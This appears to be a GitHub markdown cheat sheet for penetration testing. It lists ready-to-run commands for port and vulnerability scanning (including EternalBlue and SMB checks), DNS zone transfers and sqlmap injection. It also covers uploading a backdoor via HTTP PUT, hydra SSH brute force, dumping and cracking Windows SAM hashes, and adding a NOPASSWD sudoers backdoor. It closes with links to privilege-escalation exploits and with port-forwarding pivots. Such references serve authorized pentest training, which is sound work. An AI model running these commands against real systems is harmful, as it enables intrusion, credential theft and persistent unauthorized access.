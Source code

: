 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### SSH scan
```
nmap -sV -Pn -p 22 --script=ssh-auth-methods,ssh-hostkey,ssh-run,sshv1 <IP>
```

### DNS information gathering
if port 53 is open run NSLOOKUP
```
nslookup
  server <IP>
  <IP>
```
zone transfer
```
host -l domain.com <IP>
```


### SMB Scan
```
nmap --script=smb-enum-shares,smb-ls,smb-enum-users,smb-mbenum,smb-os-discovery,smbsecurity-mode,smb-vuln-cve2009-3103,smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-vuln-ms10-061,smb-vuln-regsvc-dos <IP>
```

### FTP scan
```
nmap -sV -Pn -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpdbackdoor,ftp-vuln-cve2010-4221 <IP>
```

### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux -a <IP>
```

## Samba shared folder access
```
smbclient \\\\10.10.10.10\\folder
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
hydra -s <port> -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### samdump2
```
samdump2 SYSTEM SAM -o passwords.key
cat passwords.key | cut -d ":" -f4 >> hashvalue
hashcat -a 0 -m 1000 hashvalue rockyou.txt --force
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION

## Check editable crontabs
```
cat /etc/crontab
```

### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows File search
```
where /r c:\ proof.txt
```

### binary path add
```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```
### 'afd.sys' Local Privilege Escalation

#### Windows Xp service pack 3 and Windows 2000 service pack 2 is vulnerable to this.
exploit url:
```
https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-080%20-%20AFD.sys/MS11-080.py
```
video: 
```
https://www.youtube.com/watch?v=rxNziQlk7sA
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
